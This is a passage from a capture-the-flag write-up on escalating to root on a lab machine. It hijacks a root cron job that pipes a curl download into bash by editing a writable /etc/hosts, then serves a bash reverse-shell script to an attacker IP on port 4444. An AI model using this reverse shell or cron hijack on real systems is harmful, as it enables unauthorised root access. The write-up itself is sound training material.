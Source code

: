 Trying to read the user flag, but user flag is also owned by the root user. Must be a mistake ??

```bash
mario@mkingdom:~$ cat user.txt
cat: user.txt: Permission denied
mario@mkingdom:~$ ls -la user.txt
-rw-r--r-- 1 root root 38 Nov 27  2023 user.txt
mario@mkingdom:~$ 
```

Again I tried doing manual enumeration, but nothing to be found. 

## Privesc to root

Trying this tool gave a result [pspy](https://github.com/DominicBreuker/pspy) 

![cron_1](./assets/cron_1.png)

So there is this `/bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log` cron job running by the root (UID=0). We can exploit this by creating the same path and the script `(/app/castle/application/counter.sh)` in our own machine,start a web server at port 85 and set the domain `mkingdom.thm` to point to us by changing the `/etc/hosts` file since we have write permission on it.

```bash
mario@mkingdom:~$ ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts
```
Put your own ip in front of the domain `mkingdom.thm`

![hosts](./assets/hosts.png)

Now we need to create `/app/castle/application/` path in our machine.

Inside the `counter.sh` file we can put a bash reverse shell as follows:

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.83.38/4444 0>&1  
```
Start a python web-server inside the folder that contains the `app` directory.

```bash
python -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
```
